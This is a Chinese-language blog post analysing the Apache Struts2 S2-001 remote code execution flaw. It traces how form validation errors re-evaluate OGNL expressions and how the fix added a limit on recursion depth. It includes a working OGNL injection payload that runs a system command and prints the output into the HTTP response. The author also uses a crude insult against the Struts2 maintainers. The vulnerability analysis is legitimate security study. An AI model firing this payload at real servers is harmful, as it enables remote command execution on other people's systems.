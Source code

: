 ```yaml
---
title: 从零开始学java web - struts2 RCE分析
date: 2019-09-23 17:02:05
tags:
- java
- struts2
- rce
---
```


最近在研究一些Java相关的问题时候，虽然有能力读java的代码，但是从没深入了解过Java的我不免总是在各种只有Java上才有的特性上栽坑，于是忽然觉得可能需要了解一些java的漏洞，本篇文章没有太多干货，主要是自己在研究过程中的一些记录吧。

ps:在分析过程中觉得S2的官方真是傻逼，东填一下西补一下还指望能修复漏洞，真是不懂...



# S2-001

Remote code exploit on form validation error

poc:
```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"pwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

这个漏洞的核心在于，form的验证错误时，会解析ognl语法，导致命令执行

## 漏洞分析

当表单内容输入后，参数会一直传递到

`struts2-core-2.0.8.jar!\org\apache\struts2\components\UIBean.class` function evaluateParams

![image.png-124kB][1]

参数本身会被经过一次处理为`%{password}`

然后一路跟入语法到`xwork-2.0.3-sources.jar!\com\opensymphony\xwork2\util\TextParseUtil.java`

![image.png-61kB][2]

当获取到`{`时，其中包裹的内容会被传入findValue函数执行。

其关键就在于，这里通过while解析，导致，如果我们伪造password为恶意的ognl表达式如`%{1+1}`那么，这层语句就会被再次循环执行。

## 修复

这里最终加入的循环递归深度判断，当完成解析之后就直接跳出。

![image.png-31.2kB][3]


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/cmil8bv3wv8592sutv0dbyep/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/mlwvf00mi58jlqh605a91185/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/pxpjlwykpgggdms4lxm27zgc/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/u5v2n7g4080hawat8lr3p6xn/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ar1ks3jmcchlnjd37tmmhc27/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/3pxtgw2juw6nsfsm4vmhxdyy/image.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/lyn5amkmmra6rbmuers34knr/image.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/kifut0voqab6sssl3mgyk2pf/image.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/cgy92yszm7yvvqovc1z9603a/image.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/7sth7twxxrnajq77w6epgica/image.png
  [11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/rk9uc9eqftqi6a7tbwdh223m/image.png
  [12]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/3cz9e9mbrl4dr99lisrw8s1a/image.png
  [13]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/z55ena7gzy4r83e4iz3y43fo/image.png
  [14]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/e195qeml6rrnez3f2ndgcnlu/image.png